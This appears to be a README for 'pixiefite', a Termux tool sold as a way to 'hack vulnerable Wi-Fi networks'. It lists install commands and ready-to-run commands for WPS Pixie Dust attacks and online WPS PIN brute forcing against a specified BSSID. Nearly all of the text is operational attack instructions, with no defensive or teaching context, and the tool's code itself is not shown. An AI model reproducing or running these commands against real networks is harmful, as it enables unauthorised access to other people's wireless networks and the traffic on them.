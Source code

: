 # pixiefite
Hack vulnerable Wi-Fi networks using Termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pip install pycryptodome
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/vladimir127001/pixiefite
cd pixiefite
chmod +x pixiefite0.0.1.py
```

#### Help : `sudo python main --help`
#### Example : `sudo python pixiefite0.0.1.py -i -K`

#### Usage: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python pixiefite0.0.1.py -i -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python pixiefite0.0.1.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python pixiefite0.0.1.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---
